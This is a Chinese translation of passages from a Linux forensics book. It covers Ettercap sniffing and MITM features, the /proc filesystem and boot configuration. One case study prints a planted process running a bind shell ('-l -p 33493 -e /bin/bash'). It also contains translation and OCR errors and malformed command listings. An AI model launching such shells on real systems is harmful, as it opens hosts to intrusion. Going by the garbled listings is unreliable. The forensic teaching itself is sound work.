与许多其他被恶意意图误用的安全工具不同，Ettercap 从一开始基本上就被设计成一种黑客工具，¹⁷，并在前 100 个网络安全工具调查中排名第 11 位。2004 年，它在 Nmap 黑客邮件列表的前 75 个安全工具中排名第 9 位.¹⁸ 它的当前版本 NG-0.7.3 被编写得更具模块化，允许用户社区协助添加新功能并提交补丁。默认情况下，Ettercap 安装在 `/usr/sbin` 目录，块大小为 362112。它被设计为一种嗅探器，专门用于中间人攻击（MITM）攻击。它自称能够嗅探活动连接、即时内容过滤以及许多其他业内绝技。

如果你在处理案件时恰好遇到 Ettercap，你几乎可以假设某些不妙的事情正在计划中或已经发生。遗憾的是，在“证据”方面，你只能得到已安装的应用程序所能提供的内容。由于它实际上可以在混杂模式或非混杂模式下嗅探流量，你可能无法判断它是否在执行某些操作。除了是一台非常强大且可配置的嗅探器外，Ettercap 自称为“最相关”的功能包括 SSH 支持、安全套接层（SSL）支持、ARP 注入、数据包过滤/丢弃、通过隧道远程篡改进行流量嗅探、密码收集、操作系统指纹识别和连接终止。如你所见，它是非常多功能的，而且在熟练用户手中非常危险。

- 15 http://www.hping.org/download.html
- 16 http://www.wireshark.org/
- 17 http://ettercap.sourceforge.org/index.php
- 18 http://it.slashdot.org/article.pl?id=04/11/09/1350205


我在我的 Ubuntu 7.10 Gutsy 主机 Forensic1 上安装了 Ettercap，启动了它，并开始嗅探我的本地网络。图 5.29 显示了我本地子网的连接。

# 图 5.29 使用 Ettercap 进行嗅探



通过双击这些连接中的任何一个，你可以查看数据包的详细信息。在我的示例中，我选择了一个从 192.168.10.118 到 205.188.13.16 端口 5190 的连接。顺便一下，该 IP 地址解析为 America Online, Inc，所以我们看到的是端口 5190 上的 AOL 即时消息连接。

# 图 5.30 AOL IM 流量



对我来说幸运的是我使用了带有 OTR 插件²⁰ 的 Pidgin¹⁹，否则我的流量将完全不加密！你唯一能够破解的只是我正在与几个未知个人进行即时消息对话。

除了查看主机到端口的连接外，你还可以查看收集到的被动配置。此视图仅显示 IP 地址和它解析出来的主机名，如图 5.31 所示。

- ¹⁹ www.pidgin.im/
- ²⁰ www.cypherpunks.ca/otr/

# 图 5.31 IP 地址和解析的主机名



从这个示例中，我将深入到 IP 地址 66.35.250.203，主机名 www.sourceforge.net。配置详情包括距离（跳数）、指纹、操作系统、端口和 HTTP 版本都会显示出来（见图 5.32）。

# 图 5.32 配置详情



注意：通过 Ettercap，我开始了嗅探，我们能够看到入侵者过去以及现在能够看到的内容。事实上，你可能想要讨论将自己的系统接入到他们的线路上并运行 Ettercap，看看正在发生什么。事实上，你很可能属于一个使用 Telnet 或 FTP 的组织。

# 图 5.33 未加密流量



虽然 Ettercap 会嗅探 SSH2，但图 5.34 显示了我们看到的内容。

# 图 5.34 加密流量



只有当攻击者能够令对方伪造每个端点时，中间人攻击才能成功。大多数加密协议都包含某种形式的端点认证，专门用于防止中间人攻击。根据维基百科¹，中间人攻击……是一种主动窃听的形式，攻击者与受害者建立独立连接，使他们认为正在直接交谈，而实际上整个对话都由攻击者控制。”

- ¹ http://en.wikipedia.org/wiki/Man-in-middle_attack

# 图 5.35 “mitm” 下拉菜单




## 总结

现在我们已经涵盖了十大黑客工具，但请不要认为这个列表是完整的。有几十种开源工具可以执行这些及其他类似的功能。我希望我在本章中所做的是开你们的眼界，让你们了解一些最流行的安全工具的潜在用途，并说明它们是如何运作的。

我为本笔记提供截图而进行的实验工作并不是通过魔法、烟雾或镜子戏完成的。它们只是简单地下载工具并在我实验室的其他机器上运行它们完成的。从概念上讲，如果你可以在自己的测试实验室执行相同的操作，你就能熟悉这些以及其他类似的工具，以及它们可能会留下什么样的取证足迹。掌握了这些信息，你就可以将这些足迹转移到当前的案件中，并希望尽可能为你的客户提供关于发生了什么、何时以及如何发生的答案。

并非所有可用于黑客的安全工具都是为了该目的设计的。正如我们在查看 Netcat、nmap、nessus 和 hping2 等工具时看到的，这些工具大部分的设计是为了帮助管理员保护其基础设施的安全。记住，在处理案件时，黑客世界的“流行口号”是“让它做到某事”。客户可能会告诉你“某事”是不可能的；然而，正如我们已经讨论过的，仅仅因为某事从未发生过，并不意味着它是可能的。

测试、测试、再测试。每当你看到不熟悉的工具或程序时，将其安装到你的实验室并看看它是怎么的。一旦你成功分析了该特定工具，请将你的结果发布到取证论坛。让其他调查人员看到你看到的内容，并从你的研究中获益。你永远不知道，你的工作可能会帮助其他人抓住坏人。

# 第 6 章

# /Proc 文件系统

本章解决方案：

- 引言
- 整合汇总
- sysfs

## 引言

之前的章节（希望）已经强调了收集易失数据的重要性。本章将帮助你收集 UNIX 系统上最易流失的数据——/proc 文件系统的内容。你第一次在第 3 章中看到 /proc。虽然从 /proc 获取的某些信息可以通过其他方法收集，但 /proc 是你唯一能够收集极其关重要数据的地方。

/proc 文件系统是所谓的“伪”或“虚拟”文件系统，非文件数据以分层文件系统的形式表示，但该系统在磁盘上并不存在。它最初的设计是为了访问信息，但此后扩展到包含其他核心和内存数据。/proc 最初实现在 UNIX 版本8 中，而大多数现代 UNIX 将其 /proc 血源追溯到 Plan 9 的实现。/proc 文件系统的优点之一是，它允许用户身份访问通常限制在内核空间的信息（例如，关于内存状态、运行进程和活动网络连接的信息）。事实上，你在第 3 章中用于收集数据的许多工具，都是从 /proc 中检索数据的。（见图 6.1。）

# 图 6.1 典型 Fedora Core 8 Linux 系统上的 /proc 内容

```
[root@localhost:/]# ls
1701 1814 2834 2727 2777 2971 2945 418
1687 1818 2836 2246 2675 2872 2972 425
1684 1893 2045 2277 2885 3042 3042 465
1160 1846 2055 2628 2879 2928 2978 425
1185 2125 2210 2382 2819 2879 2928 466
1393 2089 2131 2367 2463 2593 2693 511
1359 1918 2143 2674 2885 3042 3466 523
1390 1918 2143 2673 2762 2997 3115 531
1595 1931 2161 2306 2516 3061 3103 503
1743 1937 2180 2675 2858 3018 3189 58
1750 1961 2167 2732 2857 3023 3230 61
1755 1970 2186 2739 2857 2937 3230 62
1771 1988 2238 2744 2839 2939 381 62
1772 2232 2376 2776 2868 2944 408
[root@localhost]: _
```

# /Proc 文件系统

除了提供有关机器当前状态的数据外，某些实体允许修改。在图 6.1 中，你可以看到 /proc 中大量的目录。

cmdline 文件显示了传递给内核的启动参数：

```
cat /proc/cmdline
ro
```

该文件提供实时时钟 (rtc) 的数据，它在系统关闭时保持时间：

```
rtc_time: 20:30:22
rtc_date: 2008-04-02
rtc_epoch: 00:00:00
alarm_enable: no
BCD: yes
square_wave: no
alarm_IRQ: no
update_IRQ: no
periodic_IRQ: no
batt_status: 1024
periodic_freq: no
```

该文件包含有关系统中所有处理器的信息。

```
cpuinfo
info
```

该文件列出了内核当前（以某种方式）支持的文件系统。额外的文件系统支持可能来自已插入的模块。此外，列表中出现文件系统并不表示其具有读写权限。虚拟或伪文件系统将以“NODEV”为前，表示它们不需要物理设备

```
nodev sysfs
nodev rootfs
nodev bdev
nodev proc
nodev cpuset
nodev binfmt_misc
nodev debugfs
nodev securityfs
nodev sockfs
nodev usbfs
nodev pipefs
nodev anon_inodefs
nodev futexs
nodev tmpfs
nodev notifyfs
nodev devpts
nodev ramfs
nodev hugebfs
iso9660
nodev mqueue
extext3
nodev vmhgfs
nodev rpc_pipefs
nodev vmblock
nodev autofs
```

# 文件系统

这是 2.6 内核对“ksyms”的替代品，提供了内核中所有符号的列表。2.4 内核仅提供导出符号的列表。这些信息对于判断你正在检查的机器是否被 rootkit 感染可能非常有用，因为某些 rootkit 会在此处留下明显的迹象。例如，Adore 和基于 Adore 的 rootkit 以及 Heroin rootkit 都可以通过系统调用进行检测。然而，重要的是，此文件中缺失 rootkit 迹象并不意味着系统是安全的；它可能被更好的 rootkit 感染了。

# kcore

kcore 是以“core”文件格式存储的机器内存表示，适用于 GNU 调试器 (gdb) 的调试。这些数据在入侵调查中极其重要。对这些数据的分析可以简单地


## /Proc 文件系统

从导出字符串（`cat /proc/kcore`）到更高级的技术，可以检测出更多的根内核（rootkits）。为了收集这些数据，你需要一个比系统内存稍大的外部存储设备。你不希望将这些内容输出到屏幕；你需要将其直接发送到文件中以便稍后使用。

```
cat /proc/kcore
```

## modules

正如其名所示，此文件列出了所有加载到内核的模块。这是任何调查中非常有价值收集的信息，如果你发现自己正在处理一个可能修改二进制文件以隐藏其自身的根内核，而 `cat /proc/modules` 能够揭示它的存在，那么它就会非常有用。

## mounts

此文件列出了系统上所有的当前挂载。这些数据有几个用途：首先是为了识别你正在使用的任何外部存储、其他挂载的网络共享，并验证应为只读的挂载项是否已正确设置。

```
rootfs rw 0
/dev/root ext3 rw,data=ordered 0
/dev tmpfs rw 0
/proc proc rw 0
/sys sysfs rw 0
/proc/bus/usb usbfs rw 0
/dev/devpts devpts rw 0
/dev/sda1 boot ext3 rw,data=ordered 0
/dev/shm tmpfs rw 0
none /proc/sysfs/binfmt_misc binfmt_misc rw 0
/var/lib/nfs/rpc_pipes rpc_pipes rw 0
none /proc/fs/vblock vblock rw 0
/etc/auto.misc autofs rw,fd=6,pggrp=1998,timeout=300,minport=5,maxproto=5,indirect 0
/hosts autofs rw,fd=11,pggrp=1998,timeout=300,minport=5,maxproto=5,indirect 0
/mnt/ rw 0
```


## partitions

此文件提供了关于分区的有限信息以及分配给分区的区块数量。这些是 2.6 内核中其他地方可以的所有信息（参见 SysFS），但宁有重复数据也不要数据不足。此外，在 2.4 内核上，此文件将包含在 `/proc/diskstats` 中的数据。

| major | minor | #blocks | name |
| --- | --- | --- | --- |
| 8 | 0 | 8388608 | sda |
| 8 | 1 | 200781 | sda1 |
| 8 | 2 | 8185117 | sda2 |
| 253 | 0 | 7602176 | dm-0 |
| 253 | 1 | 524288 | dm-1 |

## sys/

/proc/sys 目录包含许多控制内核功能的文件。可以向这些文件写入数据，动态更改系统行为。除非你绝对确定自己在做什么，否则永远不要向 /proc 中的文件 `echo` 数据（或者在一个你不不在乎被弄坏的测试机器上操作）。在事件响应过程中，你不太可能深入研究 /proc 的这一区域。

## uptime

此文件将告诉你两件事：系统运行了多久，以及空闲了多少时间。我们不关心后者，但我们关心前者，因为有一个非常重要的原因。如果你被告知正在调查的事件发生在三天前，而系统显示的运行时间为 97,000 秒（27 小时），你就知道该机器至少重启过，这在事件响应任务期间是需要留意的重要信息。

## version

此文件提供了比标准 `name -a` 获取的更详细的内核版本信息，包括用于编译内核的 gcc 版本号。

```
Linux version 2.6.23.1-42fc8 (kojibuilder@xenbuilder4.fedora.phx.redhat.com) (gcc
version 4.1.2 20070925 (Red Hat 4.1.2-33)) #1 SMP Tue Oct 30 13:55:12 EDT 2007
```

## Process IDs (进程 ID)

这是 /proc 系统设计用于访问的信息，自然也是调查中至关重要的区域。众多目录中的每一个目录都对应一个特定进程的 ID。如果你熟悉 UNIX 系统，就会知道 PID 1 属于 ‘init’ 进程。以下是 /proc/1 的内容：

```
dr-xr-xr-x 2 root root 2008-04-13 19:45 attr
-r------ 1 root root 2008-04-13 19:45 aux
-w------ 1 root root 2008-04-13 19:45 clear_refs
-r----r-- 1 root root 2008-04-13 19:52 cmdline
-rw-r---- 1 root root 2008-04-13 19:45 coredump
-r----r-- 1 root root 2008-04-13 19:43 coredump_filter
-r----r-- 1 root root 2008-04-13 19:45 cuset
lrwxrxr-x 1 root root 2008-04-13 19:45 cwd -> /
-r------- 1 root root 2008-04-13 19:45 environ
lrwxrxr-x 1 root root 2008-04-13 19:45 exe -> /sbin/init
d-x------ 2 root root 2008-04-13 19:45 fd
d-x------ 2 root root 2008-04-13 19:45 fdinfo
-r----r-- 1 root root 2008-04-13 19:45 loginuid
-rw-r---- 1 root root 2008-04-13 19:45 maps
-r----r-- 1 root root 2008-04-13 19:45 mem
-rw-r---- 1 root root 2008-04-13 19:45 mounts
-r----r-- 1 root root 2008-04-13 19:45 mountstats
-rw-r---- 1 root root 2008-04-13 19:45 oom_adj
-r----r-- 1 root root 2008-04-13 19:45 oom_score
lrwxrxr-x 1 root root 2008-04-13 19:45 root -> /
-r----r-- 1 root root 2008-04-13 19:45 sched
-r----r-- 1 root root 2008-04-13 19:45 schedstat
-r----r-- 1 root root 2008-04-13 19:45 smaps
-r----r-- 1 root root 2008-04-13 19:45 statm
-r----r-- 1 root root 2008-04-13 19:52 status
d-xr-xr-x 3 root root 2008-04-13 19:45 task
-r------ 1 root root 2008-04-13 19:45 wchan
```

现在，让我们检查在调查期间对我们重要的条目。

## cmdline

启动进程的命令行。在我们的案例中，它是：

```
init [5]
```

表明系统进入了运行级别 5（带图形的多用户模式）。

## cwd

指向进程当前工作目录（cwd）的链接。

## environ

此文件包含进程的环境变量。在大多数调查中可能不大，但如果你正在处理本地权限提升攻击，可能会派上场。在许多情况下，过长或格式错误的环境变量可用于攻击 root 进程，这在受影响 PID 的 environ 条目中是明显的。environ 是一个多行非终止文件。与使用换行符指示行结束不同，它使用空字符；使用 "cat" 导出输出不是处理这些数据最简单的方法。将 cat 的输出管道到 `xargs -0 -n 1` 可以以更易读的格式输出，如下所示：

```
root@localhost 1]# environ | xargs -0 -n 1
HOME=/linux
```

## exe

指向进程实际可执行文件的符号链接，在本例中为 /sbin/init。如果我们有两个名为 'init' 的进程（PID 1 和 PID 2），我们就能区分它们。


# /proc 文件系统 · 第 16 章 63

```
[root@localhost ~]# lsof | grep 33493
/tmp/.X1-lock 8912 root 3u IPv4 39786      TCP *:33493 (LISTEN)
```

这不太妙。某个进程 `.X1-lock` 正在 33493 端口监听连接。也许它是他以前没有运行过的某个 Xserver 进程。Adam 继续继续他的调查。

```
[root@localhost ~]# ps aux | grep 8912
root 8912 0.0 0.2 3360 620 pts/1 S 16:56 0:00 /tmp/.X1-lock -1 -p 33493 -e - /bin/bash
```

Adam 对这个进程有一种不感。它看起来很合规。他查看了 /tmp 看看能查出关于 `.X1-lock` 的什么。

```
[root@localhost ~]# ls -lh
total 136K
drwx-xr-wt 1 root root 4.0K 2008-04-09 16:58 
srwx-xr-x 1 user user 0 2008-04-09 16:28 virtual-user.1910144756
drwx------ 2 user user 4.0K 2008-04-09 16:50 orbit-root
drwx------ 3 root root 4.0K 2008-04-09 16:46 gconfd-root
drwx------ 2 root root 4.0K 2008-04-09 16:46 orbit-root
drwx-xr-x 1 user user 0 2008-04-09 16:28 mapping-user
drwx------ 2 user user 4.0K 2008-04-09 16:28 virtual-user.NjuAIJ
drwx------ 2 user user 4.0K 2008-04-09 16:28 .esd-500
drwx------ 2 user user 4.0K 2008-04-09 16:28 pulse-user
drwx-rwt 2 root gdm 4.0K 2008-04-09 16:28 ICE-unix
drwx------ 2 root gdm 4.0K 2008-04-09 16:28 orbit-gdm
drwx------ 3 user user 4.0K 2008-04-09 16:28 gconfd-user
-rw-r--r-- 1 user user 66 2008-04-09 16:26 .gdmZMD7D7
drwx------ 2 user user 4.0K 2008-04-09 16:26 keyring-V36o9o
drwx------ 2 user user 4.0K 2008-04-09 16:28 ssh-zGOsK2777
-r--r--r-- 1 root root 11 2008-04-09 16:26 .X1-unix
drwx-xr-wt 2 root root 4.0K 2008-04-09 16:26 . 
drwx-xr-x 23 root root 4.0K 2008-04-09 16:22 ..
```

有一个 `.X0-lock`，但没有 `.X1-lock`，尽管它显然正在运行。Adam 进入 `/proc/8912` 寻找关于这个某种 rootkit 进程的信息。

```
[root@localhost 8912]# ls -alth
total 0
-r-xr-x 2 root root 0 2008-04-09 16:59 auxv
-r-------- 1 root root 0 2008-04-09 16:59 auxv
```

 第 6 章 /Proc

```
------ 1 root root 0 2008-04-09 16:59 clear_refs
-rw-r--r-- 1 root root 0 2008-04-09 16:59 coredump_filter
-r-xr--x 1 root root 0 2008-04-09 16:59 cpuset
-r----r-- 1 root root 0 2008-04-09 16:59 environ
------- 2 root root 0 2008-04-09 16:59 fdinfo
-r----r-- 1 root root 0 2008-04-09 16:59 io
-rw-r--r-- 1 root root 0 2008-04-09 16:59 loginuid
-rw-r--r-- 1 root root 0 2008-04-09 16:59 mem
-r----r-- 1 root root 0 2008-04-09 16:59 mounts
-r----r-- 1 root root 0 2008-04-09 16:59 mountstats
-rw-r--r-- 1 root root 0 2008-04-09 16:59 oom_adj
-r-xr--r-- 1 root root 0 2008-04-09 16:59 oom_score
-rw-xr--x 1 root root 0 2008-04-09 16:59 sched
-r----r-- 1 root root 0 2008-04-09 16:59 schedstat
-r----r-- 1 root root 0 2008-04-09 16:59 smaps
-r----r-- 1 root root 10 2008-04-09 16:59 stat
dr-xr-xr-x 3 root root 0 2008-04-09 16:59 task
-r----r-- 1 root root 0 2008-04-09 16:59 wchan
-r----r-- 1 root root 0 2008-04-09 16:58 cmdline
-r----r-- 1 root root 0 2008-04-09 16:58 status
lrwx-xr-x 1 root root 0 2008-04-09 16:57 cwd -> /tmp
lrwx-xr-x 1 root root 0 2008-04-09 16:57 exe -> /tmp/.x1-lock (deleted)
dx------ 2 root root 0 2008-04-09 16:59 maps
-r----r-- 1 root root 0 2008-04-09 16:59 fd
lrwx-xr-x 1 root root 0 2008-04-09 16:57 root -> /
-r----r-- 1 root root 0 2008-04-09 16:57 stat
dr-xr-xr-x 6 root root 140 2008-04-09 16:57 ..
dr-xr-xr-x 140 root root 0 2008-04-09 16:20
```

该 PID 的 “exe”条目说明所涉及的文件并没有隐藏，它被删除了！如果你之前并不知道这一点，在 UNIX 系统上，你可以删除一个正在被运行进程正在使用的文件，而没有任何后果。虽然文件没有在 /tmp 中列出，但只要进程仍在运行，就可以通过符号链接恢复它。如果 Adam 立即关掉机器并拍摄了取证镜像，他可能很难走到这一步，更不用说到达他想去的地方。

```
[root@localhost 8912]# cat exe > /tmp/mystery-binary
```

Adam 能够从可执行文件中提取出可执行文件。现在可以对内存中的文件进行一些快速分析。


# /Proc 文件系统 • 第6章

这些子目录中存储了海量信息，但大部分与我们的调查无关。不过，我们可以在不使用任何额外的系统命令的情况下，确认我们正准备镜像的设备的大小。

```
root@localhost block]# ls -1 sda/

drwxr-xr-x 3 root root 0 2008-04-09 17:40 sda
drwxr-xr-x 3 root root 0 2008-04-09 17:39 sda2
-r--r--r-- 1 root root 4096 2008-04-09 17:40 size
```

我们看到了两个值得注意的子目录和一个文件 sda：sda1、sda2 和 size。
root@localhost]# cat size
16777216

这对应于我们物理磁盘的完整大小（8 gigabytes）。现在，我们可以确定这 8 GB 磁盘上的分区位于何处。首先是 sda1 (/boot)：
root@localhost]# cat sda1/start
63

接下来是 sda2（包含我们所有非启动分区的 LVM）：
root@localhost]# cat sda2/start
4016562
root@localhost]# cat sda2/size
163702335

我们可以使用 Sleuthkit 中的 “mmls” 来确认这些数字。
root@localhost tmp]# mmls /dev/sda
DOS Partition Table
Offset Sector: 0
Units are in 512-byte sectors

| Slot | Start | Length | Description |
| :--- | :--- | :--- | :--- |
| 00: | ----- | 000000000 | 000000000 | 000000001 Primary Table (#0) |
| 01: | ----- | 000000001 | 000000062 | 000000062 Unallocated |
| 02: | 00:00 | 0000000063 | 0000401624 | 0000401624 Linux (0x83) |
| 03: | 00:01 | 0000401625 | 0016717859 | 0163702335 Linux Logical Volume Manager (0xe8) |
| 04: | ----- | 0016771860 | 0016772175 | 000005356 Unallocated |

> sleuthkit.org


# 第7章

# 文件分析

本章解决方案涉及：

- Linux 启动过程
- 系统与安全配置文件
- 日志文件
- 识别其他感兴趣的文件

# Linux 启动过程

Linux 启动过程的第一步是加载内核。内核通常位于 /boot 目录，并由引导加载程序引用。现代 Linux 发行版将使用统一引导加载程序 (GRUB)，而某些发行版（如 Slackware）仍将使用 Linux 加载器 (LILO)。它们的作用相同：加载内核并启动系统。让我们查看示例 grub.conf 文件中的一些相关条目：

```
default=0
timeout=5
```
这表示在延迟 5 秒后启动的默认 grub 条目是第一个（在我们的案例中也是唯一的）。

```
title Fedora (2.6.23-fc8)
```
这是在该特定 GRUB 条目（也称为 stanza）处显示的标题。它告诉 GRUB 在哪个物理设备查找后续数据；hd0 是第一个硬盘和第一个分区。双启动或多硬盘系统可能有不同的值，但这是标准：

```
kernel /vmlinuz-2.6.23-fc8 root=/dev/VolGroup0 quiet
```
该行提供了如果选择此条目将加载的内核可以通过 /proc/cmdline 识别启动选项。如果运行系统的 /proc/cmdline 输出与此处列出的，说明有人手动编辑过启动选项。

```
initrd /initrd-2.6.23-fc8.img
```
这提供了启动时将使用的初始内存磁盘 (initrd) 的位置。内存磁盘通常包含启动所需的模块（设备驱动程序、文件系统模块、逻辑卷模块等），但并非直接构建在内核中。一旦引导加载程序加载内核，内核将初始化 /sbin/init。

# init 与运行级别

Init 是 Linux 系统上的第一个进程。你可能记得 /proc 文件中的条目——它是如何工作的？类 Unix 系统有两种通用处理方式：System V 和 BSD 样式。Linux 发行版大多数情况下（包括 init 的任务和运行级别处理）遵循 System V。init 读取 /etc/initab 并执行其中的指令。这是一个相当标准的 Fedora 8 initab。使用的运行级别如下：

```
# Default runlevel
# 0 halt (不要将 initdefault 设置为此)
# 1 Single user mode
# 2 Multiuser, without NFS (如果没有网络则与3 相同)
# 3 Full multiuser mode
# 4 unused
# 5 X11
# 6 reboot (不要将 initdefault 设置为此)
```

```
id:5:initdefault:
```
